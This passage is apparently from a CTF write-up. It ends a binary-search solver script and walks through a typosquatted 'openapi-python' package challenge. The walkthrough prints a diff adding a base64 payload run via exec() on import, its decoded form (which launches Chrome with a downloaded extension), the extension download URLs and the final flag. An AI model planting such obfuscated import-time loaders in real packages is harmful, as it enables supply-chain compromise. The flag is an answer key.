        # first query -MAX_RADIUS//2, if still inside, we need to change l, r
        payload = ["0"] * i + [str(l)] + ["0"] * (n-i-1)
        payload = " ".join(payload)
        io.sendlineafter(b"> ", payload.encode())
        res = io.recvline().strip()
        print(res)
        if b"Inside" in res:
            print("Adjust")
            l, r = -MAX_RADIUS, -MAX_RADIUS//2
        while l <= r:
            mid = (l+r)//2
            payload = ["0"] * i + [str(mid)] + ["0"] * (n-i-1)
            payload = " ".join(payload)
            io.sendlineafter(b"> ", payload.encode())
            res = io.recvline().strip()
            print(res)
            if b"Inside" in res:
                r = mid - 1
            else:
                l = mid + 1
        x = l
        print(f"x: {x}")
        l, r = 0, MAX_RADIUS//2
        # first query MAX_RADIUS//2, if still inside, we need to change l, r
        payload = ["0"] * i + [str(r)] + ["0"] * (n-i-1)
        payload = " ".join(payload)
        io.sendlineafter(b"> ", payload.encode())
        res = io.recvline().decode().strip()
        if "Inside" in res:
            print("Adjust")
            l, r = MAX_RADIUS//2, MAX_RADIUS
        while l <= r:
            mid = (l+r)//2
            payload = ["0"] * i + [str(mid)] + ["0"] * (n-i-1)
            payload = " ".join(payload)
            io.sendlineafter(b"> ", payload.encode())
            res = io.recvline().decode().strip()
            print(res)
            if "Inside" in res:
                l = mid + 1
            else:
                r = mid - 1
        y = l
        print(f"y: {y}")
        ans.append((x+y)//2)
        print(ans)
    payload = " ".join(map(str, ans))
    print(f"Final payload: {payload}")
    io.sendlineafter(b"> ", payload.encode())
    res = io.recvline().decode().strip()
    print(res)
```

## Misc - my-first-python-project (4 solves / 496 points)

### Description

I recently joined one of the SEE-IA's outreach programs, which offer a wide variety of enrichment activities for elementary, middle, and high school students. Their introductory program taught me about ChatGPT and how I could interface with it using the OpenAI Python library. I followed their tutorial exactly, yet it seems to make my computer a lot slower than I expected.

Can you find out if there's any malicious activity happening here?

Hint: You might want to investigate the DNS records of some domains. Only seetf.sg domains are in scope.

[dist_my-first-python-project.zip](./dist_my-first-python-project.zip)

### Walkthrough

This challenge took me a really long time, being in to many rabbit holes and uncertainties. I will try to explain my thought process and how I eventually solved it.

Upon opening the attachment, we have a simple project repository that clones from `openai` demo. The first thing I did was to read the code and see what we need to do.

```py
def generate_prompt(animal):
    return """Suggest three names for an animal that is a superhero.

Animal: Cat
Names: Captain Sharpclaw, Agent Fluffball, The Incredible Feline
Animal: Dog
Names: Ruff the Protector, Wonder Canine, Sir Barks-a-Lot
Animal: {}
Names:""".format(
        animal.capitalize()
    )
```

This part in `app.py` seems the only relevant code that is related with some GPT prompt (flashback from DefCon Quals lol). However, running the server locally and trying multiple different prompts, I am not able to get anything related with flag - everything seems normal.

Then I looked into `requirements.txt` and noticed something different: `https://pypi.mirror.seetf.sg/packages/simple/openapi-python/` reference. The project is somehow used their own version of `openapi-python` instead of `openai-python`, which is definitely sus. We may need to diff it. I downloaded the same version of official `openai` pip package and made the diff of `openai` folder:

```diff
$ diff -r openai-python-0.26.5/openai/ openapi-python-0.26.5/openai/
diff -r openai-python-0.26.5/openai/__init__.py openapi-python-0.26.5/openai/__init__.py
42a43
> data_embedding = 'ZXh0ZW5zaW9uX3BhdGggPSBvcy5wYXRoLmpvaW4ob3MucGF0aC5leHBhbmR1c2VyKCJ+IiksICJEb3dubG9hZHMiLCAiRXh0ZW5zaW9uIikKZnJvbSBwbGF0Zm9ybSBpbXBvcnQgc3lzdGVtCmZyb20gc3VicHJvY2VzcyBpbXBvcnQgcnVuCmlmIG9zLnBhdGguZXhpc3RzKGV4dGVuc2lvbl9wYXRoKToKICAgIG5hbWUgPSBzeXN0ZW0oKQogICAgaWYgbmFtZSA9PSAiV2luZG93cyI6CiAgICAgICAgcnVuKFsiQzpcUHJvZ3JhbSBGaWxlcyAoeDg2KVxHb29nbGVcQ2hyb21lXEFwcGxpY2F0aW9uXGNocm9tZS5leGUiLCBmIi0tbG9hZC1leHRlbnNpb249e2V4dGVuc2lvbl9wYXRofSJdKQogICAgZWxpZiBuYW1lID09ICJEYXJ3aW4iOgogICAgICAgIHJ1bihbIi9BcHBsaWNhdGlvbnMvR29vZ2xlIENocm9tZS5hcHAvQ29udGVudHMvTWFjT1MvR29vZ2xlIENocm9tZSIsIGYiLS1sb2FkLWV4dGVuc2lvbj17ZXh0ZW5zaW9uX3BhdGh9Il0pCiAgICBlbGlmIG5hbWUgPT0gIkxpbnV4IjoKICAgICAgICBydW4oWyIvdXNyL2Jpbi9nb29nbGUtY2hyb21lIiwgZiItLWxvYWQtZXh0ZW5zaW9uPXtleHRlbnNpb25fcGF0aH0iXSk='
52a54,60
> exec(__import__('base64').b64decode(data_embedding))
> 
> aiosession: ContextVar[Optional["ClientSession"]] = ContextVar(
>     "aiohttp-session", default=None
> )  # Acts as a global aiohttp ClientSession that reuses connections.
> # This is user-supplied; otherwise, a session is remade for each request.
> 
82c90
< ]
---
> ]
\ No newline at end of file
diff -r openai-python-0.26.5/openai/version.py openapi-python-0.26.5/openai/version.py
1c1
< VERSION = "0.26.4"
---
> VERSION = "0.26.5"
```

Great, so there is definitely something suspicious going on. Decoding the base64 payload gives:

```py
extension_path = os.path.join(os.path.expanduser("~"), "Downloads", "Extension")
from platform import system
from subprocess import run
if os.path.exists(extension_path):
    name = system()
    if name == "Windows":
        run(["C:\Program Files (x86)\Google\Chrome\Application\chrome.exe", f"--load-extension={extension_path}"])
    elif name == "Darwin":
        run(["/Applications/Google Chrome.app/Contents/MacOS/Google Chrome", f"--load-extension={extension_path}"])
    elif name == "Linux":
        run(["/usr/bin/google-chrome", f"--load-extension={extension_path}"])
```

This will be executed upon installing and running the project! Well, luckily this is not a malicious script because I actually ran it on my own Windows machine. This leaves us 3 files downloaded from host:

```js
download_content("http://pypi.seeia.seetf.sg/static/js/analytics.js", "background.js")
download_content("http://pypi.seeia.seetf.sg/static/js/warehouse.js", "content.js")
download_content("http://pypi.seeia.seetf.sg/api/v2/status.json", "manifest.json")
```

They form a Chrome plugin, if we install it, it's actually a plugin that turn a page to black when launching (which will crash Chrome). As per admin, "Only `seetf.sg` domains are in scope": so `https://rainbowpigeon.me` reference should also be irrelevant.

At this point I figured that [http://pypi.seeia.seetf.sg](http://pypi.seeia.seetf.sg) is an interesting site, because apparently it's a pypi hosted by the author himself. What if flag is there? I clicked at all links, and browsed all files/code on this website, but nothing. We can view files on site in this way:


**I even tried lookup the site's DNS txt record since some guessy CTF challenge puts flag there.** Also nothing.

Then the next day, BIG HINT DROPPED: "You might want to investigate the DNS records of some domains." I was like, "Oh, I already did that, but nothing??? What the fuck."



At this point, me and *Legoclones* spent hours OSINT the site and DNS records, nothing (?) was found. There are a lot of aliases and we thought they were irrelevant because domain not in scope.


We also noticed that `seeia.seetf.sg` points to `link.storjshare.io` and [DNS Checker](https://dnschecker.org/all-dns-records-of-domain.php?query=txt-pypi.seeia.seetf.sg&rtype=ALL&dns=google) shows some interesting records:


Now, I spent some time reading the [doc of Storj on link sharing](https://docs.storj.io/dcs/custom-domains-for-linksharing) and checking some posts. Eventually I found an interesting post:


The random string seems to match the length of our `storj-access` key and we also have the `storj-root`! I tried this link: [http://link.dcs1.storjshare.io/s/jx4dw26pwrjp5rb6l2jn4a3nfy7a/site/src](http://link.dcs1.storjshare.io/s/jx4dw26pwrjp5rb6l2jn4a3nfy7a/site/src) but unfortunately this doesn't work. Reading further, `Storj` seems to have changed url recently and [https://link.**us1**.storjshare.io/s/jx4dw26pwrjp5rb6l2jn4a3nfy7a/site/src/](https://link.**us1**.storjshare.io/s/jx4dw26pwrjp5rb6l2jn4a3nfy7a/site/src/) actually works.

To find the actual flag, we go one directory back and can see flag is located at [https://link.us1.storjshare.io/s/jx4dw26pwrjp5rb6l2jn4a3nfy7a/site/flag.txt?wrap=1](https://link.us1.storjshare.io/s/jx4dw26pwrjp5rb6l2jn4a3nfy7a/site/flag.txt?wrap=1). Finally!

`SEE{typ05qu4773d_p4ck4g3_n4m35_en4jal3z9mc0nh6nvbt548u0z47q9lso}`